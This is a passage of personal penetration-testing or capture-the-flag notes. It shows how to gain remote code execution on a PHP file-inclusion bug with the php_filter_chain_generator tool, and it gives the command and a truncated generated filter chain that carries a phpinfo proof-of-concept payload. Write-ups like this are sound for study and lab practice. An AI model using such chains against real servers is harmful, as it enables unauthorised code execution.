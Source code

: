 ![565cc1874637112a25a7b7778b4ab18b.png](../../../2%20-%20Resources/Others/Flameshots/565cc1874637112a25a7b7778b4ab18b.png)

We got a user.

# Exploitation

For the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) (RCE) we can use a [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) through [php filter chain generator](../../3%20-%20Tags/Hacking%20Concepts/php%20filter%20chain%20generator.md) >> https://github.com/synacktiv/php_filter_chain_generator :

<img src="../../Flameshots/2bc9b6775cab82cd126642935bc1c018.png" alt="2bc9b6775cab82cd126642935bc1c018.png" width="496" height="114" class="jop-noMdConv">

Example :

```
└─$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  ' 
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|co
```
